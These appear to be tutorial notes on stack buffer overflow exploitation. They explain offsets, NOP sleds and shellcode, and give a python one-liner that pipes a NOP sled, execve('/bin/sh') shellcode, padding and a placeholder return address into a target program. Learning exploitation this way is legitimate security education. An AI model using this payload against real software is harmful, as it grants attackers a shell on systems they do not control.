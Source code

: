 # shell code
shell code quite literally is code that will open up a shell. More specifically, it is binary instructions that can be executed. Since shellcode is just machine code(in the form of binary instructions), you can usually start of by writing a C program to do what you want, compile it into assembly and extract the hex characters(alternatively it would involve writing your own assembly) 

Here’s the general process so far:

1.  Find out the address of the start of the buffer and the start address of the return address
2.  Calculate the difference between these addresses so you know how much data to enter to overflow
3.  Start out by entering the shellcode in the buffer, entering random data between the shellcode and the return address, and the address of the buffer in the return address

![](shell%20code/1_image.png)

memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. So we can make this more flexible using a NOP instruction.

A NOP instruction is a no operation instruction - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \\x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. This is what an injection vector would look like:

![](shell%20code/2_image.png)

`python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”`

`python -c “print(‘\x90’ * 30 + ‘\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05’ +`

`‘\x41’ * 60 +` 

`‘\xef\xbe\xad\xde’) | ./program_name`

 `”`

In some cases you may need to pass xargs before ./program\_name.

`python -c “print(‘\x90’ * 30 + ‘\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05’ + ‘\x41’ * 60 + ‘\xef\xbe\xad\xde’) | ./program_name`